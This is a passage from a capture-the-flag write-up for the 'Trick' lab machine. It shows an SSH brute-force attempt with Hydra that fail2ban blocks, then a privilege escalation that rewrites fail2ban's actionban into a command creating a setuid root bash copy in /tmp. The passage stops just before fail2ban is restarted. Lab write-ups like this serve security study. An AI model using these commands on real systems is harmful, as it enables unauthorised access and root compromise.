 Let's test if fail2ban works:

```sh
> hydra -l john.doe -P /usr/share/wordlists/rockyou.txt trick.htb ssh -v -I
[INFO] Testing if password authentication is supported by ssh://john.doe@10.10.11.166:22
[INFO] Successful, password authentication is supported by ssh://10.10.11.166:22
[ERROR] could not connect to target port 22: Socket error: Connection reset by peer
[ERROR] could not connect to target port 22: Socket error: Connection reset by peer
[ERROR] ssh protocol error
[ERROR] ssh protocol error
```

As we can see, we got blocked while trying to bruteforce ssh.

Now, since we have both the means of restarting fail2ban as root 
and changing it's configuration, we have a chance to escalate 
privileges.

First, let's understand fail2ban configuration.
There’s three parts to a fail2ban configuration:
- A filter defines the patterns to look for in a given log file.  
- An action defines something that can happen (like an iptables rule being put in place).  
- A jail connects a filter to an action.

We will look at jail configuration first: 

```
[DEFAULT]
...SNIP...
banaction = iptables-multiport
banaction_allports = iptables-allports
...SNIP...
```

As we can see, when banning happens, iptables-multiport is called.
Let's see it's configuration:

```
# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
```

What we are looking at is command that will run each time ban occurs.
It will be run as a root, in this case. We will change it to:

```
actionban = cp /bin/bash /tmp/jjs; chmod 4777 /tmp/jjs
```

This way we will get a root shell waiting for us in /tmp/jjs
each time some user gets banned.

We restart fail2ban:
